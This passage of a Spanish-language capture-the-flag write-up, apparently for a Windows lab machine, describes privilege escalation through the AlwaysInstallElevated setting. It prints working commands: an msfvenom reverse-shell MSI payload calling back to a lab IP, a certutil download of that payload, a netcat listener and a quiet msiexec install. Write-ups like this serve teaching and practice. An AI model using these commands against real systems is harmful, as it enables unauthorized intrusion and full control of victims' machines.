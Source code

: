 ```bash
The system cannot find the file specified.

C:\Users\Phoebe\Desktop>type user.txt
c7b85e76**************************
```
# Escalada de privilegios

Lo primero que hago es hacer un ``whoami /priv`` pero no veo nada interesante.
Asi que descargo winPEAS y lo transfiero a la maquina Windows:

![](https://i.imgur.com/91ZVNRy.png)

>FAIL: En este punto no sabia que podia hacer, por mi desconocimiento hackeando Windows, asi que me pongo a probar diferentes cosas como JuicyPotato para escalar privilegios, pero no logro dar con nada.

Buscando alguna ayuda me informo de que **AlwaysInstallElevated** al estar seteado en 1 tanto en **HKLM** como en **HMCU** podemos sacar provecho para escalar privilegio.
(Esto se puede ver utilizando winPEAS.)

Al parecer se puede crear un .MSI con Msfvenom para escalar privilegios.

Entonces hago un exploit Reverse Shell con un archivo .msi

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.29 LPORT=4321 --platform windows -a x64 -f msi -o reverse2.msi
```

Ahora debo subirlo a Windows abriendo un servidor Python:

```bash
❯ python3 -m http.server 80
```

Y descargandolo desde Windows:

```bash
certutil.exe -f -urlcache -split http://10.10.14.7/reverse2.msi
```

Ahora me pongo en escucha por el puerto 4321 con NetCat:

```bash
nc -nvlp 4321
```

y ejecuto el .MSI con:

```bash
msiexec /quiet /qn /i reverse2.msi
```

![](https://i.imgur.com/ntu3hWv.png)

**ROOT SHELL OBTENIDA.**

Ahora solo me queda ir por la Root Flag:
